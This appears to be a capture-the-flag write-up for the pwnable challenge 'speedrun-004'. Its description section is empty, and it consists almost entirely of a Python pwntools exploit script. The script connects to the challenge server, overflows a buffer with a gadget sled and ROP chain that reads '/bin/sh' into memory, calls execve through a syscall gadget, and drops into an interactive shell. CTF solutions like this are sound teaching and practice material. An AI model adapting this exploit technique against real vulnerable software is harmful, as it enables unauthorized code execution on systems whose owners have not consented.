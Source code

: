 # **speedrun-004**

#### tag : pwnable, fake-ebp, gadget-sled

-----------------------------------------------

#### Description

-----------------------------------------------

#### Solution

```python
from pwn import *
from time import sleep

context.log_level = 'debug'
context.arch = 'amd64'
r = remote('speedrun-004.quals2019.oooverflow.io', 31337)

bss = 0x6bba00
read = 0x44a140

#0x0000000000400686 : pop rdi ; ret
gg1 = 0x0000000000400686
#0x000000000044c6d9 : pop rdx ; pop rsi ; ret
gg2 = 0x000000000044c6d9
#0x0000000000415f04 : pop rax ; ret
gg3 = 0x0000000000415f04
#0x0000000000474f15 : syscall ; ret
gg4 = 0x0000000000474f15

r.recvuntil('?\n')
r.sendline(str(0x101))

p = ''
p += flat(
	gg1,
	0,
	gg2,
	8,
	bss,
	read
)
p += flat(
	gg1,
	bss,
	gg2,
	0,
	0,
	gg3,
	59,
	gg4
)
p = 'a'* 8 + (((0x100-len(p))/16)-1) * flat(gg1,0) + p + 'a' * 8 + '\x00'

r.recvuntil('?\n')
r.send(p)
r.recvuntil('\n')

sleep(0.3)
r.send('/bin/sh\x00')
r.interactive()
```
